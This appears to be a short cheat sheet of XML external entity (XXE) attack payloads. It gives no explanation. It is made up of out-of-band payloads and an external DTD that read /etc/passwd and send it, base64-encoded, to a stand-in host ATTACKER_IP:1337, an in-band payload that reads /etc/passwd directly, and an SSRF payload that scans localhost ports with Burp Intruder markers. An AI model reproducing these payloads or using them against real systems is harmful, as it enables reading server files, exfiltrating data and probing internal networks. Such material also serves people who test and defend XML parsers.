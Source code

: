 ___


*out of band XXE*
```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://ATTACKER_IP:1337/" >]>
<upload><file>&xxe;</file></upload>
```


*DTD  for exfil*
```xml
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
%oobxxe;
```


*get malicious DTD *
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE upload SYSTEM "http://ATTACKER_IP:1337/sample.dtd">
<upload>
    <file>&exfil;</file>
</upload>
```



*in-band XXE*
```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<contact>
<name>&xxe;</name>
<email>test@test.com</email>
<message>test</message>
</contact>
```


*intruder SSRF XXE*
```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://localhost:§10§/" >
]>
<contact>
  <name>&xxe;</name>
  <email>test@test.com</email>
  <message>test</message>
</contact>
```

